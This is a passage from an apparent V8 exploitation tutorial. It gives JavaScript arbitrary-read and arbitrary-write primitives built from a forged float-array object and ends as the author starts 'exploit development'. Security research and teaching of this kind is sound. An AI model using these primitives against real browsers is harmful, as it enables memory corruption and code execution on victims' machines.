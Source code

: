 This can then be used to perform reads at arbitrary addresses.

```javascript
function arb_read(addr) {
    // Place a fakeobj right on top of our crafted array with a float array map
    // We have to use tagged pointers for reading, so don't forget to tag the addr
    let fake = fakeobj(arb_rw_arr_addr - 0x20n);

    // Change the elements pointer using our crafted array
    // Need to convert for 64 bits too
    arb_rw_arr[1] = integer_to_float((0x8n << 32n) + addr - 0x8n, 64);

    // Index 0 will then return the value at read_addr
    return float_to_integer(fake[0], 64);
}
```


## Arbitrary write

This is very similar to the arbitrary read. We create a fake object right where we want to write to (again, remembering to subtract an offset for the appropriate header size), and then just write to the arrays first value (and remembering to write out floating-point values, not BigInts).

```javascript
function arb_write(addr, value) {
    // Place a fakeobj right on top of our crafted array with a float array map
    let fake = fakeobj(arb_rw_arr_addr - 0x20n);

    // Again 64 bit handling
    arb_rw_arr[1] = integer_to_float((0x8n << 32n) + addr - 0x8n, 64);

    // Set the first element of our fake array to the value we read.
    fake[0] = integer_to_float(value, 64);
}
```

Now we're in a **really good** position, like if this was a game of Chess we've got a family check and you just *know* you're going to take their Queen next. We can learn the address of where any JavaScript object exists in memory, and if the kernel will allow us, we can read and write to that address. With this, there isn't much we cannot do. We could build on this to take a range of data and write more than one byte, and check for silly little mistakes like off-by-one errors and such, but for a primitive, simple is best and easiest to debug.

The next part is the best bit - taking our building blocks, and allegedly using them to build a full exploit.


# Exploit Development, aka probably cyber crimes

So, we now understand how v8 manages objects, maps and pointers in memory, and we have some powerful primitives that we can use to manipulate memory. We've come a long way, dear reader, but now we can turn these into the beginnings of *cyber crimes*.

